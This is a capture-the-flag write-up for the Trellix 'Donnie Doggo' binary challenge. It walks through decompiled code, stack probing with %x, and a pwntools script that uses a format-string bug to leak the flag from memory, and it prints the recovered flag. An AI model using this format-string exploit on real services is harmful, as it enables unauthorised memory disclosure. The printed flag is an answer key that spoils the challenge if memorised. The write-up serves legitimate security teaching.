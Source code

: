 # Trellix Donnie Doggo Write Up

## Details:

Jeopardy style CTF

Category: Binary Exploitation

Comments:

```
Catmen has successfully burgled one of the K9's warehouses, carrying away a safe containing one of the pieces of Anubis! Unfortunately, the safe is secured with a digital lock that requires a password to open. Our intel suggests that the safe was in the possession of a K9 operative going by the alias "Donnie Doggo." The dossier Catmen put together on Donnie mentions that he likes two things: Halloween movies and reusing passwords, and at least one of these may work to our benefit. Supposedly, Donnie has been bragging at the office about writing his own super secure login program, but we suspect he may have bitten off more than he can chew. If you can exploit the binary and extract Donnie's password, that Anubis piece is as good as ours.

You can access Donnie's login program at 0.cloud.chals.io:25449.
```

## Write up:

For this challenge we were given a binary so my first step was opening the program in a decompiler and looking at the main function:

```c
0000134a      void* const var_4 = __return_addr
00001351      int32_t* var_10 = &argc
0000136f      setvbuf(fp: *stdout, buf: nullptr, mode: 2, size: 0)
00001381      char* flag = getenv(name: "FLAG")
00001399      printf(format: "Reading password from address: %…", flag)
000013ab      puts(str: "Welcome, Donnie.")
000013bd      printf(format: "Please enter your password: ")
000013e1      char* user_input
000013e1      int32_t eax_4
000013e1      if (fgets(buf: &user_input, n: 0x40, fp: *stdin) == 0)
000013f7          fwrite(buf: "ERR: failed to read password.\n", size: 1, count: 0x1e, fp: *stderr)
000013ff          eax_4 = 1
0000141c      else
0000141c          *(&user_input + strcspn(&user_input, "\n")) = 0
00001429          if (user_input.b != 0)
00001458              dummy(&user_input, flag)
00001460              eax_4 = 0
0000143f          else
0000143f              fwrite(buf: "ERR: password cannot be empty.\n", size: 1, count: 0x1f, fp: *stderr)
00001447              eax_4 = 2
0000146e      return eax_4
```

In the main function we get the flag which is an environment variable, storing it in a char pointer and then printing out the memory address of that value. The function then reads in some user input which has a max length of 64 characters. If the user_input was not empty then we pass both the user_input and the flag to the dummy function so that is where I moved to:

```c
000012cd  int32_t dummy(char* user_input, char* flag)
000012ed      char* printed_var
000012ed      sprintf(s: &printed_var, format: user_input)
00001309      int32_t eax_1
00001309      if (strcmp(&printed_var, flag) != 0)
00001331          eax_1 = printf(format: "ACCESS DENIED - "%s" does not ma…", &printed_var)
00001319      else
00001319          eax_1 = printf(format: "ACCESS GRANTED - "%s" is a match…", &printed_var)
0000133e      return eax_1
```

In this function we take our input and we send it to the printed_var using sprintf. After that, we compare the printed_var to our flag and print out either access granted or access denied as well as our printed_var string. 

Since the function prints out user input after passing it through sprintf, while letting us control the format, we can use this to print out the real flag. Our approach to solving this problem is to read in the memory address of the flag, then pass that to %s as it will print out our string. In order to do that we will also need to know where on the stack our user input is. So lets get started!

Now that we know what we need to do, it time to get the exploit working on our local version. The code will not work at this current state since we do not have the flag environmental variable set but lets run the code just to see what happens:

```
Reading password from address: (nil)
Welcome, Donnie.
Please enter your password: aa
Segmentation fault (core dumped)
```

As you can see, the address is nil and when we try to compare we get a segfault, so lets go ahead and set the value. To do this we can use export:

```
export FLAG="flag{test}"
```

And we can test that we set the correct flag by echoing the variable:

```
echo $FLAG
flag{test}
```

Now lets run the binary once more, this time with the correct flag just to make sure we understand how it works:

```
Reading password from address: 0xffda8d0b
Welcome, Donnie.
Please enter your password: flag{test}
ACCESS GRANTED - "flag{test}" is a match!
```
```
Reading password from address: 0xfff48d0b
Welcome, Donnie.
Please enter your password: flag
ACCESS DENIED - "flag" does not match your password.
```

This time, when the program is run we have an address printed and then it also prints our user input when run. So now its time to find out where on the stack our user input is when the sprintf is run. To do this we are going to put some characters (4 A's) followed by several %x's and .'s. This will give us a marker that we can see followed by period delimited pops from the stack:

```
Reading password from address: 0xff8e6d0b
Welcome, Donnie.
Please enter your password: AAAA.%x.%x.%x.%x.%x.%x.%x
ACCESS DENIED - "AAAA.f7e3bb7d.565572dd.41414141.6537662e.37626233.36352e64.32373535" does not match your password.
```

As you can see above, the third value on the stack is 0x41414141 which is the 4 A's that we started our user input with. Now that we have all of the pieces of information we need we can start crafting our solve script. 

The first line of the output from the binary includes the address so we need to read in the string, split out the address, and then convert it into a packed byte representation of the integer that we can send in our payload:

```py
addy = p32(int(s.recvline().split(b': 0x')[1][:-1], 16))
```

After that we are going to craft our actual payload, the payload will start with the address of the flag in memory, followed by the %s format tag with the modifier set to 3 to tell us to read the thrid value on the stack:

```py
payload = addy + b'%3$s'
```

Finally we end up with the following script:

```py
# import pwntools
from pwn import *

# get the process or remote nc
s = process('./DD_Login')
#s = remote('0.cloud.chals.io', 25449)

# get the address
addy = p32(int(s.recvline().split(b': 0x')[1][:-1], 16))

# craft the payload
payload = addy + b'%3$s'

# send the payload
s.sendline(payload)

# get the flag
print(s.recvline())
print(s.recvline())
```

When run locally we get:

```
[+] Starting local process './DD_Login': pid 2818
b'Welcome, Donnie.\n'
b'Please enter your password: ACCESS DENIED - "\x05\xdd\xf2\xfff7e11b7d5661c2ddflag{test}" does not match your password.\n'
[*] Process './DD_Login' stopped with exit code 0 (pid 2818)
```

And then when run while pointed at the remote address we get:

```
[+] Opening connection to 0.cloud.chals.io on port 25449: Done
b'Welcome, Donnie.\n'
b'Please enter your password: ACCESS DENIED - "\xad~\xd2\xff0565b72ddATR[Ce11arD00r]" does not match your password.\n'
[*] Closed connection to 0.cloud.chals.io port 25449
```

Where the flag is:

```
ATR[Ce11arD00r]
```